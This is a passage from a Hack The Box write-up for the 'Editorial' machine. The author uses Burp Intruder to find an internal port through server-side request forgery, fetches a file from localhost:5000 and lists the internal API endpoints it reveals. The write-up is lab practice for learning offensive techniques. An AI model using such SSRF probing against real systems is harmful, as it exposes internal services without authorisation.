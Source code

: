 ![intruder payload](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/imtruder_payload.png)

And ATTAcK. once done, using the filter we can get port 5000 listening. when we send request using url `http://localhost:5000` we obtain a file.

![ssrf exploitation](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/editorial/ssrf_exploitation.png)

An as we try that file in browser, the file is downloaded to our localsystem. Let's cat out the file.
```bash
┌──(cyb3ritic㉿kali)-[~/Downloads]
└─$ cat bfe71318-cbe0-4a91-9c03-c7f2152ce6aa | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
The fil contains all the available api endpoints. Among them `/api/latest/metadata/messages/authors` seems little interesting coz it might have the info about users. Or else, we can hit on all the endpoints to check the what we get.
